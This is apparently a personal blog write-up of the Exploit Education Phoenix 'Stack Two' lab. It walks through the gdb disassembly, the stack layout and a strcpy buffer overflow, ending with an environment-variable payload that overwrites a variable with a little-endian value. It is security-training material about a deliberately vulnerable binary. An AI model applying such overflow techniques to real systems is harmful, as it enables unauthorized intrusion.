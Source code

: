 ```yaml
---
layout: post
title: Stack Two Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Two exercise stack-overflow vulnerability with learning resources.
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)

### Quick Overview

Similar to Stack One, Stack Two exercise motive is to smash the stack to modify other variables in the stack to a `hex value 0x0d0a090a` but receives the value from the environment variable `ExploitEducation`. Technically, similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-two code, One can use `gdb ./stack-two` to start debugging it in runtime.

1. `gdb ./stack-two`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x00000000004006ad <+0>:     push   rbp
   0x00000000004006ae <+1>:     mov    rbp,rsp
   0x00000000004006b1 <+4>:     sub    rsp,0x60
   0x00000000004006b5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006b8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006bc <+15>:    mov    edi,0x400790
   0x00000000004006c1 <+20>:    call   0x400500 <puts@plt>
   0x00000000004006c6 <+25>:    mov    edi,0x4007da
   0x00000000004006cb <+30>:    call   0x4004f0 <getenv@plt>
   0x00000000004006d0 <+35>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006d4 <+39>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006d9 <+44>:    jne    0x4006ef <main+66>
   0x00000000004006db <+46>:    mov    esi,0x4007f0
   0x00000000004006e0 <+51>:    mov    edi,0x1
   0x00000000004006e5 <+56>:    mov    eax,0x0
   0x00000000004006ea <+61>:    call   0x400510 <errx@plt>
   0x00000000004006ef <+66>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f6 <+73>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006fa <+77>:    lea    rax,[rbp-0x50]
   0x00000000004006fe <+81>:    mov    rsi,rdx
   0x0000000000400701 <+84>:    mov    rdi,rax
   0x0000000000400704 <+87>:    call   0x4004d0 <strcpy@plt>
   0x0000000000400709 <+92>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070c <+95>:    cmp    eax,0xd0a090a
   0x0000000000400711 <+100>:   jne    0x40071f <main+114>
   0x0000000000400713 <+102>:   mov    edi,0x400828
   0x0000000000400718 <+107>:   call   0x400500 <puts@plt>
   0x000000000040071d <+112>:   jmp    0x400733 <main+134>
   0x000000000040071f <+114>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400722 <+117>:   mov    esi,eax
   0x0000000000400724 <+119>:   mov    edi,0x400870
   0x0000000000400729 <+124>:   mov    eax,0x0
   0x000000000040072e <+129>:   call   0x4004e0 <printf@plt>
   0x0000000000400733 <+134>:   mov    edi,0x0
   0x0000000000400738 <+139>:   call   0x400520 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-two using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-two, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Utilizes `getEnv` aka `getenv@plt` to `ExploitEducation` pointer in the memory
3. Set `locals.changeme` variable to `zero` or `0x00` in hex
4. Strcpy `locals.buffer` variable filled by declared environment variable
5. Verify `locals.changeme` is `0x0d0a090a` in hex
5. Use puts(aka Printf) method to greet the user again with decision (cmp instruction)
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe600` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-two-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5b0` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe5f0`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully. However, our challenge is to overwrite `locals.changeme` variable with `0x0d0a090a`. If you try generating the payload simply  `(A * 64) + '\x0d\x0a\x09\x0a'`, this would represent in the memory as `64 'A's & 0x0a090a0d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x0a\x09\x0a\x0d'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-two-gdb.jpg)

You'll have to set the environment variable before executing the payload.

`> export ExploitEducation=$(python -c "print('A'*64 + '\x0a\x09\x0a\x0d')")`

```assembly
(gdb) r 
Starting program: /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[Inferior 1 (process 426) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack Two Exercise: [Exploit Education](https://exploit.education/phoenix/stack-two/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
